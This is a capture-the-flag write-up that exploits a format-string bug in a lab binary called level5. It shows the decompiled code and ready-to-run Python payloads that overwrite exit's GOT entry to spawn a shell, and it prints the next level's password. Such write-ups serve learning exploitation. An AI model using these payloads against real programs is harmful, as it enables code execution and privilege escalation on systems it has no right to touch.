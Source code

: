 get the binary on host
* scp -P 4242 level5@192.168.56.107:./level5 ./binary/level5

decompile using ghidras
```
08048504	void main(void)
			{
				n();
				return;
			}

080484c2	void n(void)
			{
				undefined local_20c [520];
			
				fgets(local_20c,512,stdin);
				printf(local_20c);
080484f8		
				exit(1);
			}

080484a4	void o(void)
			{
				system("/bin/sh");
				exit(1);
			}

```
`https://axcheron.github.io/exploit-101-format-strings/` <= learn to do a GOT Overwrite

We need addr of `o()`, `exit()`, `the offset of the string` 
* o addr ====> 0x0804 84a4
* exit addr => 0x08 04 98 38
* By trying we get an off set of 4

str => `addr exit`\
`python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5` << this is valid but let try a faster way cause waiting 134 513 824 space to print is long

We can split the addr of 0 in 2 and but it in 2 time :\
`python -c "print '\x38\x98\x04\x08' + '%2048x%4\$hn' + '%31904x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5`
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```